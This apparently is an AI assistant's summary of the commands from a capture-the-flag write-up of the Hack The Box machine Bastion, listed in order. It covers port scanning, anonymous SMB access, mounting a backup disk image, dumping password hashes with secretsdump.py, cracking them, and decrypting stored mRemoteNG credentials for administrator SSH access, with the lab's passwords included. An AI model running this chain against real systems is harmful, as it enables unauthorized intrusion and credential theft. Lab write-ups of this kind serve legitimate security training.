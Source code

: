 Here are all the tools and commands used in 0xdf’s **HTB: Bastion** writeup, in the order they were executed:

---

## 🔧 **Tools Used**
- `nmap`
- `smbmap`
- `smbclient`
- `mount` (with CIFS)
- `guestmount` (from `libguestfs-tools`)
- `secretsdump.py` (Impacket)
- [CrackStation](https://crackstation.net/)
- `ssh`
- `mRemoteNG`
- `java -jar decipher_mremoteng.jar`
- Custom Python decryption script
- PowerShell
- `type` (Windows)

---

## 💻 **Commands Used (Chronologically)**

### 📡 Recon
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.134
nmap -sC -sV -p 22,135,139,445 -oA scans/nmap-tcpscripts 10.10.10.134
```

### 📁 SMB Enumeration
```bash
smbmap -H 10.10.10.134
smbmap -H 10.10.10.134 -u df
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/backups
```

### 🔗 Mount SMB Share
```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
find /mnt/ -type f
```

### 🧩 Mount VHD
```bash
apt install libguestfs-tools
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
ls /mnt2/
```

### 🔓 Dump Credentials
```bash
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 🔐 Crack Password
```bash
# Use https://crackstation.net/ on hash 26112010952d963c8dc4217daec986d9
```

### 💻 SSH as User
```bash
ssh L4mpje@10.10.10.134
# password: bureaulampje
type C:\Users\L4mpje\Desktop\user.txt
```

### 📂 Inspect Installed Software
```powershell
cd "C:\Program Files (x86)\"
```

### 🔎 mRemoteNG Profile
```powershell
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
type confCons.xml
```

### 🔓 Decrypt Password via Java
```bash
# (Download jar from: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/decipher_mremoteng.jar)
java -jar decipher_mremoteng.jar V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==
```

### 🔓 Decrypt via Python Script
```bash
./mRemoteNG-decrypt.py confCons.xml
```

### 🔐 SSH as Administrator
```bash
ssh administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🔗 Link to Writeup

📖 [0xdf’s Full Bastion Writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

---

Let me know if you'd like this converted into a markdown cheat sheet or printable version 📋